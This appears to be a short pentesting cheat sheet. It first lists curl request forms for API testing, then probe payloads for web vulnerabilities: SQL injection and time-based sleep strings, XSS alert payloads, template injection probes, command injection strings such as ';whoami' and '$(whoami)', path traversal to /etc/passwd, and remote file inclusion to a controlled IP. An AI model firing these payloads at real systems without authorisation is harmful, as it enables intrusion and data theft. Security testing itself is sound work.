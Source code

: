 # APIs and Fields

## Simulating Requests

#### GET

```
curl <url>
```

#### HEAD

```
curl -I <url>
```

#### GET - Params

```
curl <url>?field=value&field2=value2
```

#### GET - Follow Redirect

```
curl -L <url>
```

#### GET - Custom Headers

```
curl <url> -H "header1: value" -H "header2: value"
```

#### GET - Custom Cookies

```
curl -b "name1=value1; name2=value2" <url>
```

#### POST - Form Data

```
curl -X POST <url>
   -H "Content-Type: application/x-www-form-urlencoded" 
   -d "key1=value1&key2=value2" 
```

#### POST - JSON

```
curl -X POST <url>
    -H 'Content-Type: application/json'
    -d '{"field1":"value1","field2":"value2"}'
```

#### POST - Send File

```
curl -X POST <url> -d @<path to file>
curl -X POST <url> -F @<path to file>               #as form encoded
curl -X POST <url> --data-binary @<path to file>    #use this if file is corrupted

```

#### POST - Base Auth

```
curl -X POST <url> --user "<user>:<password>"
curl -X POST <url> -H "Authorization: Basic $(echo -n "<user>:<pass>" | base64)"
curl -X POST <url> -H "Authorization: Bearer <token>" 
```

## Testing parameters

#### SQL Injection

```
'"`) or 'a' = 1;    
'"` or 1 = 1; 

sleep(5)#
or sleep(5)#
;waitfor delay '0:0:5'--
" or pg_sleep(5)--
```

#### XSS

```
<script>alert(document.domain)</script>
<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>

`"'><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
/><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
```

#### Template Injection

```
4*4
{{4*4}}
${4*4}
{4*4}
<%= 4*4 %>
```

#### RCE

```
os.system('<cmd>')
T(java.lang.Runtime).getRuntime().exec("<cmd>");

echo exec("<cmd>");
echo `<cmd>`;

<!--#exec cmd="<cmd>" --> 

whoami
$(whoami)
;whoami
||whoami
&&whoami
```

#### Local File Inclusion

```
../../../../../../../../../etc/passwd
..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\boot.ini
```

#### Remote File Inclusion

```
http://www.google.com
http://<controlled ip>
```

